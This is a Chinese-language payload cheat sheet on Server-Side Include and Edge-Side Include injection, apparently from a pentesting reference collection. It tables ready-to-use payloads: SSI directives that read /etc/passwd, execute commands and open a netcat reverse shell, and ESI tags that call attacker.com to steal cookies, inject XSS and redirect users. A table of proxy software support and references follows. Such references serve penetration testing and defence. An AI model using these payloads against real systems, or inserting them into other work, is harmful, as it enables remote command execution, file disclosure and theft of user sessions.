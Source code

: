 # 服务器端包含注入

> 服务器端包含（SSI）是放置在HTML页面中的指令，并在服务器上提供页面时进行评估。它们允许您向现有的HTML页面添加动态生成的内容，而无需通过CGI程序或其他动态技术提供整个页面。

## 概述

* [方法论](#方法论)
* [边缘侧包含](#边缘侧包含)
* [参考文献](#参考文献)

## 方法论

当攻击者能够在Web应用程序中输入服务器端包含指令时，就会发生SSI注入。SSI是可以包含文件、执行命令或打印环境变量/属性的指令。如果在SSI上下文中没有正确清理用户输入，则该输入可以用来操纵服务器端行为并访问敏感信息或执行命令。

SSI格式：`<!--#directive param="value" -->`

| 描述                   | 负载                                   |
| ---------------------- | ------------------------------------- |
| 打印日期               | `<!--#echo var="DATE_LOCAL" -->`       |
| 打印文档名称           | `<!--#echo var="DOCUMENT_NAME" -->`    |
| 打印所有变量           | `<!--#printenv -->`                    |
| 设置变量               | `<!--#set var="name" value="Rich" -->` |
| 包含一个文件           | `<!--#include file="/etc/passwd" -->`  |
| 包含一个文件           | `<!--#include virtual="/index.html" -->`|
| 执行命令               | `<!--#exec cmd="ls" -->`                |
| 反向shell              | `<!--#exec cmd="mkfifo /tmp/f;nc IP PORT 0</tmp/f\|/bin/bash 1>/tmp/f;rm /tmp/f" -->` |

## 边缘侧包含

HTTP代理无法区分上游服务器的真实ESI标签和嵌入在HTTP响应中的恶意标签。这意味着，如果攻击者成功地将ESI标签注入到HTTP响应中，代理将在不加质疑的情况下处理和评估这些标签，假设它们是从上游服务器合法来源的标签。

某些代理需要在Surrogate-Control HTTP头中表明ESI处理需求。

```ps1
Surrogate-Control: content="ESI/1.0"
```

| 描述                   | 负载                                        |
| ---------------------- | ------------------------------------------ |
| 盲检测                 | `<esi:include src=http://attacker.com>`    |
| XSS                    | `<esi:include src=http://attacker.com/XSSPAYLOAD.html>` |
| Cookie窃取器           | `<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>` |
| 包含一个文件           | `<esi:include src="supersecret.txt">`      |
| 显示调试信息           | `<esi:debug/>`                             |
| 添加头信息             | `<!--esi $add_header('Location','http://attacker.com') -->` |
| 内联片段               | `<esi:inline name="/attack.html" fetchable="yes"><script>prompt('XSS')</script></esi:inline>` |

| 软件     | 包含 | 变量 | Cookies | 上游头信息需求 | 主机白名单 |
| -------- | ---- | ---- | ------- | ------------- | ---------- |
| Squid3   | 是   | 是   | 是      | 是            | 否         |
| Varnish缓存 | 是  | 否   | 否      | 是            | 是         |
| Fastly   | 是   | 否   | 否      | 否            | 是         |
| Akamai ESI测试服务器(ETS) | 是 | 是 | 是 | 否          | 否         |
| NodeJS的esi | 是  | 是   | 是      | 否            | 否         |
| NodeJS的nodesi | 是 | 否   | 否      | 否            | 可选       |

## 参考文献

* [超越XSS：边缘侧包含注入 - Louis Dion-Marcil - 2018年4月3日](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [DEF CON 26 - 利用缓存服务器进行SSRF的边缘侧包含注入 - ldionmarcil - 2018年10月23日](https://www.youtube.com/watch?v=VUZGZnpSg8I)
* [ESI注入第二部分：滥用特定实现 - Philippe Arteau - 2019年5月2日](https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [利用服务器端包含注入 - n00py - 2017年8月15日](https://www.n00py.io/2017/08/exploiting-server-side-include-injection/)
* [服务器端包含/边缘侧包含注入 - HackTricks - 2024年7月19日](https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection)
* [服务器端包含（SSI）注入 - Weilin Zhong, Nsrav - 2019年12月4日](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)